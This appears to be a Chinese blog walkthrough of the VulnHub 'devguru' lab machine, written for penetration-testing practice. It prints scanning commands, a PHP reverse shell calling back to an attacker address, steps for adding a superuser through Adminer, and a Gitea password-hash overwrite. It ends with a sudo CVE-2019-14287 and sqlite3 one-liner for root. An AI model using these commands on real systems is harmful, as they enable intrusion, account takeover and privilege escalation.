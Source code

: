 ```yaml
---
title: 靶场实战：devguru
date: 2025-5-3 23:29:53
tags: 
	-  linux提权
	-  web渗透
	-  vulnhub靶场
category: 靶场实战
renderNumberedHeading: true
slug:  storywriter/tutorial
emoji: 🎇
color: 'var(--base0A)'
cover: '![](./img/use_cover.jpg)'
theme: xsj-fall
---
```




靶机地址[devguru](https://www.vulnhub.com/entry/devguru-1,620/)

#### 信息收集

常规扫描

`sudo nmap 192.168.1.0/24 -sn`靶机发现192.168.1.138

![](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746278830305.png)

`sudo nmap $ip -p- --min-rate=10000`端口扫描22,80,8585

![](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746278873458.png)

`sudo nmap $ip -p$ports -sT -sC -sV -O -oA devguru/detail`细节扫描，tcp协议扫描对应端口，-sC使用默认脚本，-SV扫描版本信息，-O确定操作系统，-oA格式化输出

![](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746278893053.png)

![](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746278903236.png)

80端口存在git泄露，8585端口运行了gitea

`sudo nmap -sU --top-ports 20 $ip -oA devguru/udp`扫描udp的常见端口，有时可以多指定一些端口

![enter description here](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746278926588.png)

目录扫描，有时一个工具没有收获可以多试试几个工具（如dirb，dirsearch，gobuster等）

80端口目录

![](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746278960600.png)

8585端口的目录

![enter description here](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746278981133.png)

#### 开始渗透

80端口存在git泄露，使用githack工具下载下来

`sudo python GitHack.py http://192.168.1.138`

![](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746279056940.png)

重点查看配置相关文件

config下的database.php发现数据库信息

![](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746279073567.png)

访问80端口的adminer.php发现是数据库管理

![](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746279098699.png)

使用刚刚获取的信息登录

优先关注users等信息，只找到一个backend_users的表，此时有两个思路，1修改原来管理员的密码，危险程度较高，容易被发现，2是新建一个用户，危险程度较低，这里选择新建用户
![enter description here](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746279119471.png)

最后is_superuser要设置为1，在用户组将我们新建的用户归类到管理员组

同时根据数据库加上80端口扫描的目录backend,访问并登录

登录之后在cms -add - code输入反弹shell的指令

```
function onStart(){
//nc监听7777端口
    $s   =fsockopen("192.168.1.114",5555);
    $proc=proc_open("/bin/sh -i", array(0=>$s, 1=>$s, 2=>$s),$pipes);
}
```

![](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746279130337.png)

同时开启本地监听`nc -lvvp 5555`

访问/home1（新建网页名称）执行代码获取shell

成功拿到shell
![](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746279147662.png)

#### 权限提升

##### 获取高交互shell

使用`python3 -c 'import pty;pty.spawn("/bin/bash")'`获得交互更好的shell（使用什么版本的python主要看环境有什么版本）

读取/etc/passwd文件发现只有root和frank用户有/bin/bash即允许ssh且有高交互shell

1

尝试读取shadow文件权限不允许，通常shadow文件都是只有root用户有权限的，但是也不一定，如果可以读取就可以利用该文件进行hash碰撞

使用python启动一个快速http服务共享文件`python -m http.server`

使用wget下载linpeas.sh和LinEnum.sh

![](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746279178588.png)

提升权限并运行脚本

![](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746279195376.png)

suid不存在提权，看看sudo，需要密码，无法获得

![](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746279207508.png)

查看备份文件
![](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746279217041.png)

##### 获取普通用户

发现新的服务器连接
![enter description here](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746279262092.png)

同样查看user，因为我们已经获取了web的权限，因此这里我们想要获取frank用户的权限，所以这里的选择是更改frank的密码
![enter description here](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746279271344.png)

原来的gitea的加密方式是pbkdf2且有salt，我们选择换一个加密方式，bcrypt，使用网站实现（我这里尝试了几种方式，只有bcrypt可行，有的博客使用了原加密方式，但没说清楚salt值的获取）[在线Bcrypt密码生成工具-Bejson.com](https://www.bejson.com/encrypt/bcrpyt_encode/#google_vignette)

`$2a$10$sV1DF9po/5T1BE2dsy2OueGZ/VuPrUrwDR6aA88Ygu2gv6GPeGtzO`

结合目录扫描的结构gitea在8585端口
![enter description here](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746279287060.png)

左下角显示gitea的版本是1.12.5

该版本存在以下漏洞

setting -> git hook输入命令

然后编辑 readme.md 随便编辑即可执行
![enter description here](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746279380648.png)

成功拿到
![](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746279429126.png)

存在sqlite3无需密码使用
![enter description here](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746279453993.png)

#### sqlite3配合sudo漏洞提权

发现特权命令/usr/bin/sqlite3使用网站查找[GTFOBins](https://gtfobins.github.io/)

![](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746279463974.png)

复制，执行，发现

![](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746279479812.png)
![](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746279489723.png)

sudo的版本是1.8.21，存在一个[CVE-2019-14287：sudo权限绕过漏洞分析与复现 - FreeBuf网络安全行业门户](https://www.freebuf.com/vuls/217089.html)的漏洞

这里可以使用该漏洞配合sqlite3提权

`sudo -u#-1 sqlite3 /dev/null '.shell /bin/sh'`
![enter description here](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746279496031.png)